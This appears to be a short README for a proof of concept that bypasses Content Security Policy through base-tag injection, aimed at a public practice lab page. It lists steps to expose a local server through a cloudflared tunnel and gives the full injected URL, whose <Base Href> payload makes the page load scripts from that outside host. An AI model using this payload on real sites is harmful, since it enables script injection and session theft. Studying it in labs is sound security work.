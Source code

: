 # POC CSP Bypass via base-uri

## URL Lab:
https://x55.is/brutelogic/csp/csp-base-uri.php?p=

## Step to reproduce:
0. Copy repo & npm install
1. Run node server.js
2. Run cloudflared tunnel --url http://localhost:3000
3. Copy the trycloudflare.com url from log
4. Open https://x55.is/brutelogic/csp/csp-base-uri.php?p=
5. Add our url server to base tag, example:
```<Base Href=//harrison-approach-goat-steady.trycloudflare.com>```
6. inject to url param, all url will like this:
```https://x55.is/brutelogic/csp/csp-base-uri.php?p=<Base Href=//harrison-approach-goat-steady.trycloudflare.com>```